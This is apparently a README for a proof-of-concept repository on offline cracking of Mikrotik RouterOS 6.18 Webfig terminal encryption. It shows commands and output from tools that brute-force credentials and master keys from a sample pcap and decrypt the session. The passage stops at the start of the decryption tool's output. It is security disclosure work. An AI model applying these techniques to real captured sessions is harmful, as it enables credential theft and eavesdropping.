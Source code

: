 # PoC: Offline Decryption of Mikrotik's Web Terminal
## Technical Summary
The encryption scheme used by Mikrotik's Webfig terminal software as seen on the RB750GL running RouterOS version 6.18 is susceptible to offline brute force attacks that allow a third party to recover login credentials (username and password) as well as full decryption of the terminal session. The implementation appears to emulate RFC 3079's MPPE session key generation, but the protocol implementation is weakened by additional data that allows us to derive the MD4 hash of the user's password and thus recover the session keys.

## Proof of Concept Summary
### Sample
Sample files that can be used with the proof of concept software are located in the *sample* directory:
1. **login.pcap**: A pcap file containing a single web terminal session.
2. **passwords.txt**: A short list of passwords to use with the MD4 bruteforce software.

### Software
Three proof of concepts are included in this repository:
1. **jsproxy_md4_bruteforce**: Using a provided pcap and password list this tool will generate the masterkey used for the terminal send and receive functions.
```sh
charlie@wildcard:~/jsproxy_crypto/md4_bruteforce/build$ ./jsproxy_md4_bruteforce -f ../../sample/login.pcap -p ../../sample/passwords.txt 
[+] Loading passwords...
[+] Passwords loaded: 16
[+] Initial request found.
[+] Server challenge received.
[+] Challenge response found.
Username: admin
Password: test
SHA-1(Password SHA-1): 2066656e05c22f3a995ad9ecfed913d6
Master Key: d1dd2f0fe4f5c1c4386595c4b56e64c9
```
2. **jsproxy_des_bruteforce**: Using a provided pcap this tool will generate the master key used for the terminal send and receive functions. Note that this tool is keyed to break the the provided session in exampes/login.pcapng and is a proof of concept in the truest sense. For full technical details see the technical details section.
```sh
charlie@wildcard:~/jsproxy_crypto/des_bruteforce/build$ ./jsproxy_des_bruteforce -f ../../sample/login.pcap 
[+] Initial request found.
[+] Server challenge received.
[+] Challenge response found.
Username: admin
[+] Brute forcing DES Key 3
DES Key 3: 949ac00000000000
[+] "Brute forcing" DES Key 2
DES Key 2: be94a05006cace70
[+] "Brute forcing" DES Key 1
DES Key 1: 0c5aa490802ede2e
Password SHA-1: 0cb6948805f797bf2a82807973b89537
SHA-1(Password SHA-1): 2066656e05c22f3a995ad9ecfed913d6
Master Key: d1dd2f0fe4f5c1c4386595c4b56e64c9
```
3. **jsproxy_session_decrypt**: Using a provided pcap and a masterkey this tool will decrypt the terminal session in the pcap and write the plaintext to standard out.
```sh
charlie@wildcard:~/jsproxy_crypto/session_decrypt/bu$ ./jsproxy_session_decrypt -f ../../sample/login.pcap -m d1dd2f0fe4f5c1c4386595c4b56e64c9
[+] Initial request found.
```